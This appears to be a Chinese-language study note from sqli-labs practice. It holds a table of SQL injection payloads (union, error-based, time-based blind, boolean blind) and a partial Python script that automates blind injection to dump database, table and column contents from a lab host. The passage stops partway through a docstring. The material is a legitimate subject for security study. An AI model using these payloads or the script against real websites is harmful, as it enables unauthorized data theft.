 相较于上一关，需要闭合的多了一个括号，并且把整个字符串base64加密了，除了麻烦点以外没啥别的，不过说起来更符合实际场景。

SQL注入基础部分就先到这里吧。简单总结一下手法：

|                            | 适用于                                 | payload                                                      |
| :------------------------- | -------------------------------------- | ------------------------------------------------------------ |
| union 联合                 | 将查询结果直接返回页面没有任何过滤     | `union select user()`                                        |
| 报错注入（最好双查询注入） | 页面返回报错语句                       | `union select 1 from (select count(*),concat(floor(rand(0)*2),(select user())) as a from information_schema.tables group by a) as b` |
| 盲注                       | 没有返回报错，查询结果被限制在页面输出 | `and 0 = if('security'=(select database()),sleep(1),0)`    or    `and 0 = if('security'=(select database()),benchmark(100000,sha(1)),0)` |
| 布尔型                     | 页面只有两种返回情况                   | `and 'e'=substr((select database()),23,1) -- `               |

不全，因为只列了刚真正学到的，其他太简单或者太复杂的就，再说吧。

> 先判断能不能闭合(`id=1'`)或者增加条件判断(`id=1' and 1=1`)，看看有无报错；如果没报错先看看能不能在返回页面把数据爆出来，再看看能不能根据页面返回的情况判断payload是否执行，后者即进入了盲注的区域。不论是延时注入还是基于布尔型的判断，只要能判断payload是否执行就存在注入。而如果页面如果极其明显的正确payload和错误payload都返回同样的页面则可以尝试延时注入。

## 放一些无WAF过滤情况下常用的代码

```python
import requests,re,time


def get_query_len(func,url,args_name=None):
    html_len = requests.get(url).headers.get('Content-Length')
    if func == 'database':
        payload = "' and (length((select database())))={} -- "
    elif func == 'table':
        payload = "' and (length((select group_concat(table_name) from information_schema.tables where table_schema='"+str(args_name)+"')))={} -- "
    elif func == 'column':
        payload = "' and (length((select group_concat(column_name) from information_schema.columns where table_name='"+str(args_name)+"')))={} -- "
    elif func == 'data':
        if len(args_name) != 1:
            return False
        key = list(args_name.keys())[0]
        val = args_name[key]
        payload = "' and (length((select group_concat("+val+") from "+key+")))={} -- "
    else:
        return False
    url = url + payload
    for i in range(200):
        req_len = requests.get(url.format(str(i))).headers.get('Content-Length')
        if req_len == html_len:
            return i
    return None


def blind_injection_structure(func='database', url=None, args_name=None):
    '''

    :param func:
        database    table   column  爆破功能
    :param url:
        eg:        url = "http://192.168.145.129:8888/Less-5/?id=1"
    :param args_name:
        具体的参数名，eg：
            blind_injection_structure(func='database', url=None,): 爆破当前数据库
            blind_injection_structure(func='database', url=None, args_name=user): 爆破数据库名为user的表名
            blind_injection_structure(func='database', url=None, args_name=user): 爆破表名为user的列名（默认在当前数据库下）
    :return:
```